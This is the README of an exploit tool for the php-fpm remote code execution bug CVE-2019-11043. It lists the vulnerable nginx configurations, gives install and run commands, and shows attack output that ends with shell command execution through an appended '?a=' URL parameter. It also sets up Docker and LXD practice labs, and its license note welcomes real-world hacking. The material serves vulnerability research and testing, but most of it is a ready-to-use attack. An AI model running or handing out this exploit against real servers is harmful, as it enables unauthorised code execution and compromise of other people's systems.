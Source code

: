 # PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. This means that a web user may get code execution if you have vulnerable config (see [below](#the-full-list-of-preconditions)).

## Writeup

While we were too lazy to do a writeup, Orange Tsai published [a perfect analysis](https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html) in his blog. Kudos to him.

## What's vulnerable

If a webserver runs nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lacks any script existence checks (like `try_files`), then you can probably hack it with this sploit.

#### The full list of preconditions
1. Nginx + php-fpm, `location ~ [^/]\.php(/|$)` must be forwarded to php-fpm (maybe the regexp can be stricter, see [#1](https://github.com/neex/phuip-fpizdam/issues/1)).
2. There must be a `PATH_INFO` variable assignment via statement `fastcgi_param PATH_INFO $fastcgi_path_info;`. Also `SCRIPT_FILENAME` must be set using `fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;` (there might be a constant path instead of `$document_root`). At first, we thought these are always present in the `fastcgi_params` file, but it's not true.
3. There must be a way to set `PATH_INFO` to an empty value. This exploit assumes that `fastcgi_split_path_info` directive is there and contains a regexp starting with `^` and ending with `$`, so it tries to break the regexp with a newline character.
4. This particular exploit assumes that `PATH_INFO` is set after `REQUEST_URI` in the config.
5. No file existence checks like `try_files $uri =404` or `if (-f $uri)`. If Nginx drops requests to non-existing scripts before FastCGI forwarding, our requests never reach php-fpm. Adding this is also the easiest way to patch.
6. This exploit works only for PHP 7+, but the bug itself is present in earlier versions (see [below](#about-php5)).

## Isn't this known to be vulnerable for years?

A long time ago php-fpm didn't restrict the extensions of the scripts, meaning that something like `/avatar.png/some-fake-shit.php` could execute `avatar.png` as a PHP script. This issue was fixed around 2010.

The current one doesn't require file upload, works in the most recent versions (until the fix has landed), and, most importantly, the exploit is much cooler.

## How to run

Install it using
```
go get github.com/neex/phuip-fpizdam
```

If you get strange compilation errors, make sure you're using go >= 1.13. Run the program using `phuip-fpizdam [url]` (assuming you have the `$GOPATH/bin` inside your `$PATH`, otherwise specify the full path to the binary). Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

Alternatively, you can use a [docker image](https://github.com/ypereirareis/docker-CVE-2019-11043) to run the exploit:

```bash
docker run --rm ypereirareis/cve-2019-11043 [url]
```

## Playground environments

### Using Docker

If you want to reproduce the issue or play with the exploit locally through Docker, do the following:

1. Clone this repo and go to the `reproducer` directory.
2. Create the docker image using `docker build -t reproduce-cve-2019-11043 .`. It takes a long time as it internally clones the php repository and builds it from the source. However, it will be easier this way if you want to debug the exploit. The revision built is the one right before the fix.
2. Run the docker using `docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`.
3. Now you have http://127.0.0.1:8080/script.php, which is an empty file.
4. Run the exploit using `phuip-fpizdam http://127.0.0.1:8080/script.php`
5. If everything is ok, you'll be able to execute commands by appending `?a=` to the script: http://127.0.0.1:8080/script.php?a=id. Try multiple times as only some of php-fpm workers are infected.

### Using LXD system containers

If you want to reproduce the issue or play with the exploit locally through LXD, do the following:

1. Create two system containers, `vulnerable` and `attacker`. You can use the `ubuntu:18.04` container image for both containers.
2. In the `vulnerable` container, install `nginx` and `php-fpm`. Configure the server block as [this configuration](https://gist.github.com/simos/9a87bedfcd720ccda0cff54fd06ddd0f). Create an empty file `/var/www/html/index.php`.
3. In the `attacker` container, install the Go language (`sudo snap install go --classic`), clone this repository, and run `go build` in the directory of the repository.
4. Run the attack as follows: `./phuip-fpizdam http://vulnerable.lxd/index.php`. Try multiple types in order to infect all php-fpm workers. 

For more details instructions, see [Testing CVE-2019-11043 (php-fpm security vulnerability) with LXD system containers](https://blog.simos.info/testing-cve-2019-11043-php-fpm-security-vulnerability-with-lxd-system-containers/).

## About PHP5

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [_fcgi_data_seg](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

## Credits

Original anomaly discovered by [d90pwn](https://twitter.com/d90pwn) during Real World CTF. Root clause found by me (Emil Lerner) as well as the way to set php.ini options. Final php.ini options set is found by [beched](https://twitter.com/ahack_ru).

## License

This exploit is distributed under terms of [MIT License](LICENSE.txt).

Refrain from doing any damage with this exploit. But if you really hack something with this thing, I will be happy.
